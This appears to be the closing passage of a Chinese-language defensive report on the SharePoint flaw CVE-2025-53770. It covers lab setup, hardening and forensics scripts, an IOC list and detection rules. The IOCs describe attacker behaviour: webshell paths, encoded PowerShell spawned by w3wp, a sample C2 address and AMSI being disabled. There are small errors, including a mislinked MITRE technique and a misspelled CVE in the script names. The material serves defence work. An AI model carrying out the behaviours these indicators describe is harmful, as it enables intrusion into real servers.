        'government': 2.0,
        'manufacturing': 1.5,
        'education': 1.0
    }
    
    sensitivity_multiplier = {
        'low': 1.0,
        'medium': 1.5,
        'high': 2.0,
        'critical': 3.0
    }
    
    # 计算直接成本
    direct_cost = base_cost[org_size] * industry_multiplier[industry] * sensitivity_multiplier[data_sensitivity]
    
    # 间接成本 (声誉损失、客户流失、业务中断)
    indirect_cost = direct_cost * 0.6
    
    # 监管罚款 (行业相关)
    regulatory_fine = {
        'finance': 10000000,    # GLBA/SOX
        'healthcare': 5000000,  # HIPAA
        'government': 0,        # 不适用
        'manufacturing': 1000000,  # GDPR (如果在欧洲)
        'education': 500000     # FERPA
    }
    
    total = direct_cost + indirect_cost + regulatory_fine.get(industry, 0)
    
    return {
        'direct_cost': direct_cost,
        'indirect_cost': indirect_cost,
        'regulatory_fine': regulatory_fine.get(industry, 0),
        'total_impact': total
    }

# 示例: 大型金融机构,高敏感数据
# impact = calculate_financial_impact('large', 'finance', 'high')
# print(f"Total financial impact: ${impact['total_impact']:,.0f}")
# 输出: Total financial impact: $40,000,000
```

## PART VI: 实战指南

### 第18章: 虚拟环境搭建 (研究用)

#### 18.1 最小化实验室架构

```
┌─────────────────┐      ┌─────────────────┐
│  DC01           │      │  SP01           │
│  AD 域控        │←────→│  SharePoint     │
│  (2 vCPU/4GB)   │      │  (4 vCPU/16GB)  │
└─────────────────┘      └─────────────────┘
         │                        │
         └────────┬───────────────┘
                  │
         ┌────────▼────────┐
         │  Kali Linux     │
         │  攻击机          │
         │  (2 vCPU/4GB)   │
         └─────────────────┘

网络: 192.168.100.0/24 (隔离虚拟网络)
```

#### 18.2 快速部署脚本

```
# SharePoint 2019 自动化安装 (在 SP01 上运行)
# 前提: 已加入域,已安装 SQL Server

$config = @{
    FarmName = "SPFarm"
    DatabaseServer = "SP01\SQLEXPRESS"
    Passphrase = "P@ssw0rd123!"
    FarmAccount = "LAB\sp_farm"
}

# 1. 安装前置条件
Install-WindowsFeature NET-Framework-Features,Web-Server,Web-WebServer,Web-Common-Http,Web-Static-Content,Web-Default-Doc,Web-Dir-Browsing,Web-Http-Errors,Web-App-Dev,Web-Asp-Net,Web-Net-Ext,Web-ISAPI-Ext,Web-ISAPI-Filter,Web-Health,Web-Http-Logging,Web-Log-Libraries,Web-Request-Monitor,Web-Http-Tracing,Web-Security,Web-Basic-Auth,Web-Windows-Auth,Web-Filtering,Web-Digest-Auth,Web-Performance,Web-Stat-Compression,Web-Dyn-Compression,Web-Mgmt-Tools,Web-Mgmt-Console,Web-Mgmt-Compat,Web-Metabase,Application-Server,AS-Web-Support,AS-TCP-Port-Sharing,AS-WAS-Support, AS-HTTP-Activation,AS-TCP-Activation,AS-Named-Pipes,AS-Net-Framework,WAS,WAS-Process-Model,WAS-NET-Environment,WAS-Config-APIs,Web-Lgcy-Scripting,Windows-Identity-Foundation,Server-Media-Foundation,Xps-Viewer

# 2. 挂载 SharePoint 安装介质
Mount-DiskImage -ImagePath "C:\ISO\SharePoint2019.iso"
$drive = (Get-DiskImage -ImagePath "C:\ISO\SharePoint2019.iso" | Get-Volume).DriveLetter

# 3. 安装前置程序
& "${drive}:\prerequisiteinstaller.exe" /unattended

# 4. 安装 SharePoint
& "${drive}:\setup.exe" /config "C:\Config\silent-install.xml"

# 5. 创建 Farm
Add-PSSnapin Microsoft.SharePoint.PowerShell
New-SPConfigurationDatabase -DatabaseName "SPConfig" -DatabaseServer $config.DatabaseServer -Passphrase (ConvertTo-SecureString $config.Passphrase -AsPlainText -Force) -FarmCredentials (Get-Credential $config.FarmAccount)

# 6. 安装服务
Install-SPHelpCollection -All
Initialize-SPResourceSecurity
Install-SPService
Install-SPFeature -AllExistingFeatures
New-SPCentralAdministration -Port 2222 -WindowsAuthProvider NTLM

# 7. 创建 Web Application (易受攻击的配置)
New-SPWebApplication -Name "SharePoint - 80" -Port 80 -ApplicationPool "SharePointAppPool" -ApplicationPoolAccount (Get-SPManagedAccount $config.FarmAccount) -AuthenticationProvider (New-SPAuthenticationProvider -UseWindowsIntegratedAuthentication)
```

### 第19章: 安全加固最佳实践

#### 19.1 纵深防御检查清单

```
## 网络层
- [ ] 部署 WAF (ModSecurity/F5/Imperva)
- [ ] 启用 IDS/IPS (Snort/Suricata)
- [ ] 配置网络分段 (DMZ/内网/数据层)
- [ ] 限制出站连接 (仅允许必要端口)

## 应用层
- [ ] 安装最新安全补丁 (KB5002754/KB5002768/KB5002760)
- [ ] 启用 AMSI Full Mode
- [ ] 轮换 MachineKey (每30天)
- [ ] 禁用不必要的 WebPart
- [ ] 启用 ViewStateMac
- [ ] 配置 CSP (Content-Security-Policy)

## 主机层
- [ ] 部署 EDR (Defender for Endpoint/CrowdStrike)
- [ ] 启用 Sysmon (详细进程监控)
- [ ] 配置 AppLocker/WDAC (应用白名单)
- [ ] 启用文件完整性监控 (FIM)
- [ ] 限制管理员权限 (最小权限原则)

## 数据层
- [ ] 加密 web.config (aspnet_regiis -pe)
- [ ] 启用透明数据加密 (TDE) for SQL
- [ ] 配置数据库审计日志
- [ ] 定期备份 (3-2-1 规则)

## 监控层
- [ ] 集中日志收集 (SIEM)
- [ ] 配置实时告警
- [ ] 部署威胁狩猎脚本
- [ ] 定期漏洞扫描
```

#### 19.2 自动化加固脚本

```
# 一键加固脚本
function Invoke-SharePointHardening {
    Write-Host "[*] 开始 SharePoint 安全加固..." -ForegroundColor Cyan
    
    # 1. 禁用危险 WebPart
    $dangerousWebParts = @(
        "Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet",
        "Microsoft.Office.Excel.WebUI.ExcelWebRenderer"
    )
    
    foreach ($wp in $dangerousWebParts) {
        Get-SPWebPartPack -Identity $wp -ErrorAction SilentlyContinue | ForEach-Object {
            Uninstall-SPWebPartPack -Identity $_.Name -Confirm:$false
            Write-Host "  [+] 已禁用: $($_.Name)" -ForegroundColor Green
        }
    }
    
    # 2. 强化 web.config
    Get-SPWebApplication | ForEach-Object {
        $configPath = Join-Path $_.IisSettings[0].Path.FullName "web.config"
        [xml]$config = Get-Content $configPath
        
        # 启用 ViewStateMac
        $config.configuration.'system.web'.pages.enableViewStateMac = "true"
        
        # 禁用调试
        $config.configuration.'system.web'.compilation.debug = "false"
        
        # 添加 CustomErrors
        if (-not $config.configuration.'system.web'.customErrors) {
            $customErrors = $config.CreateElement("customErrors")
            $customErrors.SetAttribute("mode", "On")
            $config.configuration.'system.web'.AppendChild($customErrors)
        }
        
        $config.Save($configPath)
    }
    
    # 3. 配置 IIS 安全头
    Import-Module WebAdministration
    $siteName = "SharePoint - 80"
    
    Add-WebConfigurationProperty -PSPath "IIS:\Sites\$siteName" -Filter "system.webServer/httpProtocol/customHeaders" -Name "." -Value @{name='X-Content-Type-Options';value='nosniff'}
    Add-WebConfigurationProperty -PSPath "IIS:\Sites\$siteName" -Filter "system.webServer/httpProtocol/customHeaders" -Name "." -Value @{name='X-Frame-Options';value='SAMEORIGIN'}
    Add-WebConfigurationProperty -PSPath "IIS:\Sites\$siteName" -Filter "system.webServer/httpProtocol/customHeaders" -Name "." -Value @{name='X-XSS-Protection';value='1; mode=block'}
    
    Write-Host "[+] 加固完成!" -ForegroundColor Green
}

# Invoke-SharePointHardening
```

### 第20章: 应急响应手册

#### 20.1 事件分级

|  |  |  |  |
| --- | --- | --- | --- |
| 级别 | 触发条件 | 响应时间 | 行动 |
| P1 (关键) | 确认利用成功 (发现 webshell) | 15分钟 | 立即隔离,启动事件响应小组 |
| P2 (高危) | 检测到利用尝试 (IDS告警) | 1小时 | 分析日志,阻断攻击源 |
| P3 (中危) | 检测到扫描行为 | 4小时 | 记录并监控 |

#### 20.2 应急响应流程



#### 20.3 取证数据收集

```
# 自动化取证脚本
function Collect-ForensicsData {
    param([string]$OutputPath = "C:\Forensics\$(Get-Date -F yyyyMMdd-HHmmss)")
    
    New-Item -Path $OutputPath -ItemType Directory -Force
    
    # 1. 内存转储
    Write-Host "[*] 收集内存转储..." -ForegroundColor Cyan
    Get-Process w3wp | ForEach-Object {
        & "C:\Tools\procdump64.exe" -ma $_.Id "$OutputPath\w3wp_$($_.Id).dmp" -accepteula
    }
    
    # 2. 文件系统快照
    Write-Host "[*] 收集文件系统快照..." -ForegroundColor Cyan
    robocopy "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions" "$OutputPath\SharePoint" /E /COPY:DAT /DCOPY:T /R:0
    
    # 3. 事件日志
    Write-Host "[*] 导出事件日志..." -ForegroundColor Cyan
    @('Security','Application','System','Microsoft-Windows-Sysmon/Operational') | ForEach-Object {
        wevtutil epl $_ "$OutputPath\$($_.Replace('/','_')).evtx"
    }
    
    # 4. IIS 日志
    Write-Host "[*] 收集 IIS 日志..." -ForegroundColor Cyan
    robocopy "C:\inetpub\logs\LogFiles" "$OutputPath\IISLogs" /E /MAXAGE:7
    
    # 5. 网络连接
    Write-Host "[*] 记录网络连接..." -ForegroundColor Cyan
    netstat -anob > "$OutputPath
etstat.txt"
    
    # 6. 系统信息
    systeminfo > "$OutputPath\systeminfo.txt"
    ipconfig /all > "$OutputPath\ipconfig.txt"
    
    Write-Host "[+] 取证数据已收集到: $OutputPath" -ForegroundColor Green
}

# Collect-ForensicsData
```

## 附录

### 附录A: IOC 完整清单

```
# CVE-2025-53770 IOC 列表 (YAML 格式,可导入 MISP/OpenCTI)

indicators:
  # 文件 IOC
  files:
    - path: 'C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\*\TEMPLATE\LAYOUTS\spinstall*.aspx'
      description: 典型 webshell 文件名
      severity: critical
    
    - path: 'C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\*\TEMPLATE\LAYOUTS\spupdate*.aspx'
      description: 备用 webshell
      severity: critical
    
    - hash_sha256: 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855'
      description: 已知 webshell 哈希 (示例)
      severity: critical
  
  # 网络 IOC
  network:
    - uri_path: '/_layouts/15/ToolPane.aspx'
      referer: 'SignOut.aspx'
      method: 'POST'
      description: 利用尝试
      severity: critical
    
    - user_agent: 'python-requests/2.31.0'
      description: 自动化利用工具
      severity: high
    
    - destination_ip: '192.0.2.100'
      description: 已知 C2 服务器 (示例)
      severity: critical
  
  # 进程 IOC
  processes:
    - parent_image: 'w3wp.exe'
      child_image: 'powershell.exe'
      commandline_contains: '-encodedcommand'
      description: PowerShell 执行
      severity: critical
    
    - parent_image: 'w3wp.exe'
      child_image: 'cmd.exe'
      commandline_contains: '/c'
      description: 命令执行
      severity: high
  
  # 注册表 IOC
  registry:
    - key: 'HKLM\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}'
      value: 'ScanLevel'
      data_modified_to: '0'
      description: 尝试禁用 AMSI
      severity: critical
```

### 附录B: 检测规则集

**Sigma 规则汇总**:

```
# 下载并部署到 SIEM
git clone https://github.com/SigmaHQ/sigma.git
cd sigma/rules/windows

# 查找相关规则
grep -r "CVE-2025-53770" .
grep -r "w3wp.exe" . | grep "powershell"

# 转换为 Splunk 格式
python tools/sigmac -t splunk rules/cve-2025-53770-*.yml > cve-2025-53770-splunk.txt

# 转换为 Elasticsearch 格式
python tools/sigmac -t es-qs rules/cve-2025-53770-*.yml > cve-2025-53770-elastic.json
```

### 附录C: 自动化脚本工具集

所有脚本已在前文各章节提供,汇总如下:

1. `Hunt-CVE2025537770.ps1` - 威胁狩猎 (第12章)
2. `Start-EmergencyResponse.ps1` - 紧急响应 (第13章)
3. `Install-SharePointPatch.ps1` - 补丁部署 (第14章)
4. `Test-CVE2025537770Patch.ps1` - 补丁验证 (第15章)
5. `Invoke-SharePointHardening.ps1` - 安全加固 (第19章)
6. `Collect-ForensicsData.ps1` - 取证收集 (第20章)

### 附录D: 参考资料与引用

#### 官方公告

1. [Microsoft Security Response Center - CVE-2025-53770](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-53770)
2. [Microsoft Security Blog - Disrupting Active Exploitation](https://www.microsoft.com/en-us/security/blog/2025/07/22/disrupting-active-exploitation-of-on-premises-sharepoint-vulnerabilities/)
3. [CISA KEV Catalog - CVE-2025-53770](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

#### 威胁情报

1. [Zscaler ThreatLabz - CVE-2025-53770 Analysis](https://www.zscaler.com/blogs/security-research/cve-2025-53770-zero-day-exploit)
2. [Kaspersky Securelist - ToolShell Explained](https://securelist.com/toolshell-explained/117045/)
3. [Arctic Wolf Labs - CVE-2025-53770](https://arcticwolf.com/resources/blog/cve-2025-53770/)

#### 技术资源

1. [NVD - CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)
2. [MITRE ATT&CK - Deserialization of Untrusted Data](https://attack.mitre.org/techniques/T1027/)
3. [OWASP - Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
4. [ysoserial.net GitHub](https://github.com/pwntester/ysoserial.net)

## 结语

**核心要点回顾**:

1. CVE-2025-53770 是 CVSS 9.8 的关键漏洞,已在野利用
2. 根因是 BinaryFormatter 反序列化 + 认证绕过的组合
3. 补丁已发布,但必须配合 MachineKey 轮换和 AMSI 启用
4. 多层检测和纵深防御是关键

**立即行动**:

* 部署官方补丁 (KB5002754/68/60)
* 轮换 MachineKey
* 启用 AMSI Full Mode
* 部署检测规则
* 执行威胁狩猎
* 定期安全审计

**免责声明**: 本报告仅供安全研究和防御目的,所有代码和技术细节应在授权环境中使用。作者不对滥用承担责任。

*END OF REPORT*
